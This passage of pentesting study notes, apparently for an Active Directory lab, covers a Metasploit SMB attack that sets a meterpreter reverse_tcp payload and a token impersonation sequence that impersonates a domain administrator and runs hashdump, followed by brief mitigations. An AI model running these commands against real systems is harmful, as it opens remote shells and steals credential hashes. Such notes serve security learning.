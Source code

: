 		set smbuser
		
		set smbpass
		
		show targets
		
		set target {Native Upload}
		
		set payload windows/x64/meterpreter/reverse_tcp
		
		options
		
		set LHOSTS
		
		run

<br>

- Token Impersanation Attack

		load incognito
		
		list_tokens -u
		
		impersonate_token MARVEL\\Administrator
		
		shell
		
		whoami
		
		hashdump
		
		rev2self # if hashdump command doesnt work
		
		hashdump

<br>

### Mitigations

- Limit user/group token creation permissions

- Local Admin Restriction

- Account tiering 
https://www.ravenswoodtechnology.com/how-to-mitigate-privilege-escalation-with-the-tiered-access-model-for-active-directory-security/

<div style="page-break-after: always;"></div>
<br>

## Kerberoasting

---

### Kerberoast? 		

![[Kerberoasting.png]]

<br>
